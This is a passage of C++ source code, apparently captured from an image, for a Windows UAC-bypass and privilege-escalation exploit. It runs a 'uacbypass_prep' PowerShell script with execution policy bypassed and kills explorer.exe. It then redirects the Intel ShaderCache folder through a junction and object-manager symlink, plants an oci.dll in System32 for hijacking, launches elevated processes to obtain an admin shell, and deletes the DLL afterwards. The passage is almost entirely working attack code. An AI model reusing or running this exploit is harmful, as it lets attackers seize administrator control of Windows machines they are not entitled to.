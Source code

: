 ```cpp
            outFile.close();
        }
        else {
            std::wcerr << L"Failed to write to recent.txt\n";
        }
    }
    WinExec("powershell.exe -ExecutionPolicy Bypass -File c:\\users\\robbi\\Desktop\\intel_uacbypass_prep.ps1", 0);

    Sleep(3000);

    WinExec("cmd.exe /c TASKKILL /F /IM explorer.exe", 0);
    Sleep(500);
    checkdir();

    // Create the junction
    CreateJunction(L"C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache", L"\\??\\GLOBALROOT\\RPC CONTROL");

    std::wifstream inFile(L"c:\\users\\public\\recent.txt");

    if (inFile) {
        std::getline(inFile, recentFile);
        inFile.close();

        std::wcout << L"Value read from file: " << recentFile << std::endl;
    }
    else {
        std::wcerr << L"Failed to open recent.txt\n";
    }

    std::wstring dosDeviceName = L"Global\\GLOBALROOT\\RPC CONTROL\\" + recentFile;

    if (CreateDosDevice(dosDeviceName.c_str(), dllTarget.c_str())) {
        std::wcout << L"Symlink created: " << dosDeviceName << L" -> " << dllTarget << std::endl;

    }
    else {
        std::wcerr << L"CreateDosDevice failed: " << GetLastError() << std::endl;
        return 1;
    }

    LaunchElevatedProcessWithTimeout(L"C:\\Windows\\system32\\taskmgr.exe", L"", 3000);

    WinExec("cmd.exe /c copy /Y c:\\myfolder\\oci.dll c:\\windows\\system32\\oci.dll", 0); //overwrite dummy file with our file
    Sleep(3000);
    WinExec("cmd.exe /c rmdir /S /Q C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache", 0);
    std::cout << "Launching admin shell!\n";
    LaunchElevatedProcessWithTimeout(L"C:\\Windows\\system32\\comexp.msc", L"", 3000);
    std::cout << "[+] Cleanup: removing oci.dll to prevent unwanted issues with other exe's that want to load it\n";
    Sleep(1000);
    WinExec("cmd.exe /c del /F /Q C:\\Windows\\System32\\oci.dll", 0);
    return 0;
}
```

